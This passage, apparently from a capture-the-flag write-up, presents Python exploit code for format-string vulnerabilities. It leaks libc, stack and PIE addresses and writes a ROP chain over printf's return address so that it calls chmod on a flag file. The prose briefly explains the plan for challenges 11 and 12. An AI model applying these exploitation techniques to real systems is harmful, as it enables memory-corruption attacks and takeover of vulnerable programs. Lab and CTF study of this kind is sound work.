 ```python
    pop_r13_ret = pop_r13_ret_offset
    leave_ret = libc_base + leave_ret_offset
    print(f'pop_rsp_ret: {hex(pop_rsp_ret)} pop_r13_ret_2: {hex(pop_r13_ret_2)} pop_rdi_ret: {hex(pop_rdi_ret)} pop_rsi_ret: {hex(pop_rsi_ret)} pop_r13_ret: {hex(pop_r13_ret)} leave_ret: {hex(leave_ret)}')

    # Phase 3 
    # Leak stack
    # Cute trick, Leak stack using libc leak
    environ_addr = libc_base + libc_environ_offset
    environ_leak_addr = read_addr(p0, payload_size, rsp_to_format_offset, address=environ_addr)
    print(f'environ_leak_addr: {hex(environ_leak_addr)}')

    # Phase 4
    # Forge ROP
    printf_ret_addr = environ_leak_addr - environ_printf_offset
    flag_addr = printf_ret_addr + 0x30
    print(f'printf_ret_addr:{hex(printf_ret_addr)}')

    # We'd like to overwrite within a single printf call all 6 qwords, starting from the return address of printf. 
    write_addrs(p0, payload_size, rsp_to_format_offset, 
    addresses=[printf_ret_addr, printf_ret_addr + 8, printf_ret_addr + 0x10, printf_ret_addr + 0x18, printf_ret_addr + 0x20, flag_addr], 
    values=[pop_rdi_ret, flag_addr, pop_rsi_ret, 0xffff, chmod_addr, 0x67616c662f], 
    prefix_string_size=prefix_string_size)

    p0.interactive()
    

if __name__ == '__main__':
    main()
```

## Challenges 11 + 12

Now PIE, but we have 2 invocations. \
The idea is simple - for the first invocation I'd implement generic multiple-read, which would read PIE, stack and libc addresses within a single format string vuln invocation. \
For the second invocation, I'd use the generic multiple-write as I've implemented within challenge 10.  


```python
def gen_read_format_string(rsp_to_format_offset, position):
    buf = b''
    # buf += b'%' + str(position).encode() + b'$s'
    buf += b'%p ' * 0x100
    buf += b'B' * (8 - ((rsp_to_format_offset + len(buf)) % 8))

    return buf

def read_addr(p, payload_size, rsp_to_format_offset, address):
    init_position = 6 + int(rsp_to_format_offset / 8)
    buf = gen_read_format_string(rsp_to_format_offset, init_position)

    position = 6 + int((rsp_to_format_offset + len(buf)) / 8)
    buf = gen_read_format_string(rsp_to_format_offset, position)

    buf += struct.pack('<Q', address)
    buf += (payload_size - len(buf)) * b'A'

    p.send(buf)
    p.recvuntil(b'Your input is:')
```